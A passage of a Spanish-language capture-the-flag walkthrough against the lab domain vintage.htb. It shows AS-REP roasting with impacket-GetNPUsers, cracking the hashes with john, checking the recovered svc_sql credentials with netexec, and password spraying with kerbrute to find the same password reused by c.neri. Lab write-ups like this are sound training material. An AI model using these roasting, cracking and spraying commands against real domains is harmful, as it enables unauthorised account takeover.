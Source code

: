 <figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### Performing an AS-REP Roast Attack again (GetNPUsers)

Debido que hemos habilitado a esos 3 usuarios la opción del (DONT\_REQ\_PREAUTH) de Kerberos, al realizar nuevamente un **AS-REP Roast Attack** verificamos que hemos obtenido los 3 hashes de las 3 cuentas modificadas.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt vintage.htb/ 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/2732_vmware_IXXDDjlEDq.png" alt=""><figcaption></figcaption></figure>

Guardaremos los 3 hashes obtenidos en el archivo llamado "hashes" y a través de la herramienta de **john**, procederemos a intentar crackear los hashes para obtener la contraseña en texto plano.

En este caso, nos logra crackear el hash del usuario "svc\_sql" y obtenemos sus respectivas credenciales en texto plano.

```bash
catnp hashes

john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

<figure><img src="../../../.gitbook/assets/2733_vmware_Uq4yNlE0SI.png" alt=""><figcaption></figcaption></figure>

Validaremos a través de **netexec** de autenticarnos mediante Kerberos (-k) con el usuario y contraseña obtenidos. Comprobamos que efectivamente se tratan de credenciales válidas para el dominio.

```bash
netexec smb dc01.vintage.htb -u 'svc_sql' -p 'Zer0the0ne' -k
```

<figure><img src="../../../.gitbook/assets/2734_vmware_c7QJXzCo4n (1).png" alt=""><figcaption></figcaption></figure>

### Password spraying with Kerbrute

Procederemos de realizar un **Password spraying** autenticándonos mediante Kerberos a través de la herramienta de **Kerbrute** para verificar si esta contraseña se reutiliza con otros usuarios del dominio.

Verificamos que efectivamente ha validado que el usuario (C.Neri@vintage.htb) dispone de las mismas credenciales.

```bash
kerbrute passwordspray -d vintage.htb --dc dc01.vintage.htb users.txt 'Zer0the0ne'
```

<figure><img src="../../../.gitbook/assets/2736_vmware_ERUqYvK0Mv.png" alt="" width="521"><figcaption></figcaption></figure>

Validaremos nuevamente a través de **netexec** de que las credenciales si son válidas para el usuario (c.neri@vintage.htb).

```bash
netexec smb dc01.vintage.htb -u 'c.neri' -p 'Zer0the0ne' -k
```
